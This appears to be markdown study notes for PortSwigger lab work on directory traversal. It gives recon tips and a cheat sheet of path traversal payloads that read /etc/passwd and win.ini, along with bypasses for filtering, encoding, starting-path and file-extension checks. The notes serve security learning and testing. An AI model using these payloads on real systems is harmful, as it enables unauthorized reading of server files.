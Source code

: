 # Directory Traversal

## Summary

* [Recon for Directory Traversal Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

<br>

## Resources

* https://portswigger.net/web-security/file-path-traversal
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include

<br>

## Recon

### Identify Directory Traversal

* Identify any application functionality that is likely to involve retrieval of data from a server’s filesystem.


* Look for any input fields that reference a file or directory name, or that contain any file extensions. 

    * Example: ?file=test, ?item=test.html


* After identifying potential targets for directory traversal testing, we need to test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.

<br>

## Cheat Sheet

<br>

### No Defenses in place

* This is a basic payload that can be used to test for directory traversal vulnerabilities when the application doesn’t implement any input validation.  This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the operating system in use.

```bash 
../../../etc/passwd
```
```bash
../../../windows/win.ini
```

<br><br>
**Many applications that place user input in file paths implement some defenses against traversal attacks.  The following payloads include some techniques to use in order to bypass these defenses.**

<br><br>
### Non-recursive filtering bypass

* The application is filtering out the ../ characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd   
```
```bash
..././..././..././etc/passwd
```

<br>

### Absolute path bypass

* This payload references the file directly without the use of the traversal sequences

```bash
/etc/passwd  
```

<br>

### Encoding bypass

* Double URL encode the following payload:

```bash
../../../etc/passwd
```

* Other variations of the above:

    * Double URL encode only the / character in ../ :

```bash
..%25%32%66
```

   * URL encode the / character ..%2f , then URL encode only the % character in ..%2f :

```bash
..%252f
```

<br><br>
**Burp Pro includes a Path Traversal fuzzing wordlist that has many variations of encoding sequences to use.**
<br><br>


### Validation of starting path bypass

* Sometimes the application requires that the supplied filename begins with a base folder.  We can include this base folder and add in the traversal sequences after it.

```bash
/var/www/images/../../../etc/passwd
```

<br>

### File extension validation bypass

* If the application requires that the filename must end with a certain file extension, we can inject a null byte to possibly terminate the file path before the required extension:

   * Other methods to bypass this - https://portswigger.net/web-security/file-upload#obfuscating-file-extensions 

```bash
../../../etc/passwd%00.png
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
